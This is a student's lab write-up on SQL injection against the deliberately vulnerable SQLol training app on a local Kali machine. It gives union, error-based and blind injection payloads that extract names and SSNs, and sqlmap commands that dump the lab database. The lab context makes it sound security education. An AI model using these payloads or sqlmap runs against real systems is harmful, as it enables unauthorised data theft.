





# Assignement 4

## Install

First clone the repo and copy the files

```bash
git clone https://github.com/SpiderLabs/MCIR
cp -r MCIR/sqlol /var/www/html/
```

I had no idea of the root password of my MySQL, since kali run as root, whatever password you use, you'll be connected. Therefore, I created another mysql user. Run MySQL server and connect

```bash
service mysql start
mysql -u root
```

Then create the user

```sql
CREATE USER 'sqlol'@'localhost' IDENTIFIED BY 'sqlol';
GRANT ALL PRIVILEGES ON *.* TO 'sqlol'@'localhost';
```

We can now modify the `database.config.php` file

```
//Choose me for MySQL
$dbtype = 'mysqli';
$server = '127.0.0.1';
$port = '3306';
$username = 'sqlol';
$password = 'sqlol';
$database = 'sqlol';
$persist = '';
```

Start apache server

```bash
service apache2 start
```

Go to `http://localhost/sqlol` and reset!

## SQLi vulns
### Union based
The union based SQLi vuln consists in adding other information to the request rsult with an `UNION SELECT`. In a regular request like this
```sql
SELECT username FROM users WHERE username = 'inject' GROUP BY username ORDER BY username ASC;
```

We can add more information with this injection :

```sql
' UNION SELECT concat(name,':',ssn) from ssn;#
```

This make this final request

```sql
SELECT username FROM users WHERE username = '' UNION SELECT concat(name,':',ssn) from ssn;#' GROUP BY username ORDER BY username ASC
```

and display all the ssn.


### Error based SQLi
If the web application use verbose error, and display them, we can try to extract data from there. In the challenge 4, a normal request return nothing, but errors are displayed. We can execute a request whose response will be displayed in the error. In the tutorial of the challenge, they use `ExractValue`, a function that query a XML document. This fonction takes two parameters `xmldata` and `xpathquery`. If the `xmlquery` is incorrect, it will display an error and show the query. So if the query is the result of an inner SQL request, we get data!

Injection example :

We assume the request is the following :

```sql
SELECT username FROM users WHERE username = 'inject' GROUP BY username ORDER BY username ASC;
```

Let's inject the following

```sql
' AND ExtractValue('junk',concat(0x01,(select concat(name,':',ssn) from ssn limit 1 offset 0)))='a
```

So it becomes :

```sql
SELECT username FROM users WHERE username = '' AND ExtractValue('junk',concat(0x01,(select concat(name,':',ssn) from ssn limit 1 offset 0)))='a' GROUP BY username ORDER BY username ASC;
```

This SQL querry is syntaxically correct, but throw an error with the data. Here we ask to concat the name and the ssn of one user starting at 0. We get this result :


### Blind content based SQLi

A blind SQLi is basically an injection where the webapp return a true/false response. No data is displayed, only an indicator showing if the querry succeed. Let's imagine the same querry :

```sql
SELECT username FROM users WHERE username = 'inject' GROUP BY username ORDER BY username ASC;
```

Let's imagine, like in the challenge 5, that the web app return `OK` if the username exist, or nothing otherwise. Let's try to guess Herp Derper's ssn.

We can inject :

```sql
Herp Derper' and '0'=substring((select ssn from ssn where name='Herp Derper'),1,1)#
```

With gives :

```sql
SELECT username FROM users WHERE username = 'Herp Derper' and '0'=substring((select ssn from ssn where name='Herp Derper'),1,1)#' GROUP BY username ORDER BY username ASC;
```

Since Herp Derper is a valid username, if the 1st character of his ssn is `0`, the querry is true so the webapp send back `OK`. If it is not, it send back nothing. We can now script this to get all the data.

## slqmap installation

`sqlmap` is already installed on kali

```bash
sqlmap --version
```

if it is not up-to-date, upgrade it

```bash
apt install --only-upgrade sqlmap
```

`sqlmap` is a powerfull tool to automatize sqlinjection. It can try many different injection technique on different dbms. If it finds the dbms used by the webapp, it will focus on it and try specific injection technics. He can also try to get/create files on the server and even somtimes open a shell. When a injection seems to work, you can ask sqlmap to get the databases, tables and data. If it finds passwords, it will try to crack them. Depending of the complexity of the injection (simple union or time-based), the data extraction can take some time.

## sqlmap update

`sqlmap` is installed using the stable version `1.3.11`. running `sqlmap --update` upgrade it to the dev version `1.3.12.1`.



## sqlmap in action

Why using the wizard? The only usefull parameter of the wizard is entering the URL... It is way easier to use sqlmap with the regular command parameters. The level and risk are by default at 1.

### Challenge 10 : no where
The injection is in the SELECT part, we can inject what column name we want. This is a really easy injection since we can basically to what we want the only part of the request that will not change is the `SELECT` at the beginning. 

```sql
SELECT *inject* from users;
```
`sqlmap` find the vuln really quickely.

```bash
sqlmap -u "http://127.0.0.1/sqlol/select.php?query_results=all_rows&error_level=none&show_query=on&location=column_name&inject_string=&submit=Inject%21"
```

 

`sqlmap` detect a simple inline injection. We can quickly dump the DB.

```bash
sqlmap -u "http://127.0.0.1/sqlol/select.php?query_results=all_rows&error_level=none&show_query=on&location=column_name&inject_string=&submit=Inject%21" --dump
```
### Challenge 5 : error based

Let's go !

```bash
sqlmap -u "http://127.0.0.1/sqlol/select.php" --data="query_results=none&error_level=verbose&show_query=off&location=where_string&inject_string=&submit=Inject!"
```

This challenge use POST method, so we need to give sqlmap data. After few seconds, we get this



It also found an XSS vulnerability!

Not one, not two, but three injection! One is boolean-based blind, and the third is time-based blind. Those are blind injection, that is to say the backend does not send the data directly. However, the second vulnerability is an error-based, which is better. We can ask `sqlmap` for the tables like so :

```bash
sqlmap -u "http://127.0.0.1/sqlol/select.php" --data="query_results=none&error_level=verbose&show_query=off&location=where_string&inject_string=&submit=Inject!" -D sqlol --tables
```



### Challenge 2 : quote filter

Not really smart dev will understand that quotes are evil and may want to sanitize it! But `sqlmap` mush more powerfull! 

```bash
sqlmap --flush-session -u "http://127.0.0.1/sqlol/select.php?sanitization_level=high&sanitization_params=%27&sanitization_type=keyword&query_results=all_rows&error_level=verbose&show_query=on&location=where_int&inject_string=&submit=Inject%21"
```

And then we find :


`sqlmap` found an error based sqli and a time-based blind. We can see in the payload, it is not using any quotes. 

```
-7258 OR 1 GROUP BY CONCAT(0x7170627171,(SELECT (CASE WHEN (7531=7531) THEN 1 ELSE 0 END)),0x717a627871,FLOOR(RAND(0)*2)) HAVING MIN(0)#
```

Once a injection is detected, it is easy to get the data by using `--dump` with `-D sqlol`, or even specifying tables with `-T`.

### Challenge Custom : full time-based

Let's spice this up with a full time-based injection! We saw that sqlmap always find a better way to get data in the other challenge. Indeed, time-based injection can be really long depending on the bandwidth, or even impossible. Let's setup a more complexe evironement:
- no error displayed
- no data result
- no boolean result

Only a time-based attack can retrieve the data. Let's go `sqlmap`!

```bash
sqlmap --flush-session -u "http://127.0.0.1/sqlol/select.php?query_results=none&error_level=none&show_query=off&location=where_string&inject_string=&submit=Inject%21"
```

And we got it !


Let's retrieve the data. Let's just ask for the table names.

```bash
time sqlmap -u "http://127.0.0.1/sqlol/select.php?query_results=none&error_level=none&show_query=off&location=where_string&inject_string=&submit=Inject%21" -D sqlol --tables
```

the `time` command indicate the time the `sqlmap` command takes.



Yes, 47 seconds for those two tables names. It takes a while compared to the previous challenge where the response were instant. We could try to dump the DB with `-D sqlol --dump`, but be patient!


